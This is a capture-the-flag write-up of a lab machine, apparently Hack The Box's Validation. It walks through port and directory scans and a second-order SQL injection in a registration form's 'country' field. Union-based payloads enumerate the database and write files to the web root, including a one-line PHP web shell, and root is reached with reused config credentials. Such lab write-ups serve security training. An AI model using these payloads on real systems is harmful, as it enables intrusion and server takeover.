





# Validation
## Enumeration
- `nmap`
```
└─$ nmap -p- -Pn 10.10.11.116 -T4    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-10 17:09 BST
Nmap scan report for 10.10.11.116 (10.10.11.116)
Host is up (0.14s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
4566/tcp open     kwtc
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http-proxy

Nmap done: 1 IP address (1 host up) scanned in 583.51 seconds
```
```
└─$ nmap -sC -sV -Pn -p22,80,4566,8080 10.10.11.116 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-10 17:23 BST
Nmap scan report for 10.10.11.116 (10.10.11.116)
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.96 seconds

```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.116/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.116/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/10 17:38:19 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 16088]
/account.php          (Status: 200) [Size: 16]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.116/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.116/js/]
/config.php           (Status: 200) [Size: 0]

```

- Web Server


## Foothold/User
- When we fill in the form, we get the following result




- Let's start with `SQLI`
  - No issues with `Test123'`
  - But when I tried special chars with `country` params, the backend issued error
    - Looks like second-order `SQLI`  - `Second-order SQL injection arises when user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way.`
    - https://portswigger.net/kb/issues/00100210_sql-injection-second-order
    - https://offensive360.com/second-order-sql-injection-attack/
  - By the way, we have to use the `cookie` that's being sent to us to see the error
    - It's `md5` hash of the username we registered



- I played around with different payloads and had success with
  - `username=TEST&country=USA' union select 1;-- -`




- The query `username=TEST&country=USA' union select user();-- -` resulted in


- Since now we can execute different queries, let's enumerate
  - `username=TEST&country=USA' union select database();-- -` - `registration`
  - `username=TEST&country=USA' union select column_name from information_schema.columns where table_name = 'registration'` - shows `username`, `userhash`, `country`, `regtime`
    - No entries with password
  - If we execute `username=TEST&country=USA' union select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'";-- -`, we have `FILE` privileges
    - We can create a `File` 
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#mysql-commands
  - Let's test it
  - `username=TEST&country=USA' union select "PENTEST!!!" into outfile '/var/www/html/PENTEST.txt';-- -`
  - Don't forget to visit `account.php` with the cookie that was sent back


- Let's create `webshell`
  - `username=TEST&country=USA' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/cmd.php';-- -`


- Reverse shell



- I didn't know that there is another way of upgrading shell
  - `script /dev/null -c bash`
  - The rest is the same

## Root
- Enumeration resulted in `config.php` file



- Let's try `su -`
  - Rooted


